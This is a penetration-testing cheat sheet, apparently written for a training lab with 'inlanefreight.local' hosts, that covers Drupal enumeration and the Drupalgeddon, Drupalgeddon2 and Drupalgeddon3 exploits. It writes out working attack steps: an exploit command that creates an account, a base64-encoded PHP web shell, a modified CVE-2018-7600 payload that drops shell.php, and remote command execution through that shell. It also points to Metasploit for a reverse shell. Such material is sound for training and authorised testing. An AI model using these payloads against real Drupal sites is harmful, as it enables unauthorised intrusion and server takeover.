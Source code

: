 ### Enumeration

```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```bash
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt
```

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

### Attack

## Drupalgeddon

Adds a new user for version 7.31 and below

- Download exploit: https://www.exploit-db.com/exploits/34992

```bash
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

## Drupalgeddon2


Affects Druple < 8.3.9 / < 8.4.6 / < 8.5.1

- Download exploit: https://www.exploit-db.com/exploits/44448
- Modify exploit as you see fir

E.g.:

```bash
echo '<?php system($_GET[cmd]);?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==
```

Update exploit:

```bash
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==" | base64 -d | tee shell.php'}
```

Run Exploit:

```bash
python3 44448.py 
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/shell.php
```

RCE:

```bash
curl -s http://drupal-dev.inlanefreight.local/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Drupalgeddon3

Use the metasploit module `multi/http/drupal_drupageddon3`. For this we need to use the `
`drupal_session` which can be obtained from a valid login session. From there, it is possible to obtain a reverse shell.

